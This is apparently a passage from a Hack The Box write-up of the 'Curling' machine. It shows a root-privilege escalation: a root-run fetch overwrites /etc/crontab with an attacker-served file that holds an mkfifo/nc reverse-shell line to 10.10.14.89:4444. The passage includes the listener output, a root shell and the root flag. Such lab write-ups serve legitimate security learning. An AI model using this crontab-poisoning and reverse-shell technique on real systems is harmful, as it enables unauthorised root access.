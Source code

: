 ```sh
url = "http://10.10.14.89/crontab"
output = "/etc/crontab"
```

When the cron runs it will download our crontab and save it over /etc/crontab, causing our code to run every minute, connecting back to our listener.

```sh
❯ python3 -m http.server 80
Command executed at: 2025-03-23 14:43:21
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
10.129.201.151 - - [23/Mar/2025 14:44:03] "GET /crontab HTTP/1.1" 200 -
```


```sh
floris@curling:~/admin-area$ cat /etc/crontab
# /etc/crontab: system-wide crontab
# Unlike any other crontab you don't have to run the `crontab'
# command to install the new version when you edit this file
# and files in /etc/cron.d. These files also have username fields,
# that none of the other crontabs do.

SHELL=/bin/sh
PATH=/usr/local/sbin:/usr/local/bin:/sbin:/bin:/usr/sbin:/usr/bin

# m h dom mon dow user  command
17 *    * * *   root    cd / && run-parts --report /etc/cron.hourly
25 6    * * *   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.daily )
47 6    * * 7   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.weekly )
52 6    1 * *   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.monthly )
#
* * * * * root rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.89 4444 >/tmp/f
```


```sh
❯ nc -lvnp 4444
Command executed at: 2025-03-23 14:42:52
listening on [any] 4444 ...
connect to [10.10.14.89] from (UNKNOWN) [10.129.201.151] 39112
/bin/sh: 0: cant access tty; job control turned off
> id
uid=0(root) gid=0(root) groups=0(root)
> cat /root/root.txt
692f2756895c539d86769f33e2223a51
```


![[curling_completed.png]]


https://app.hackthebox.com/machines/160

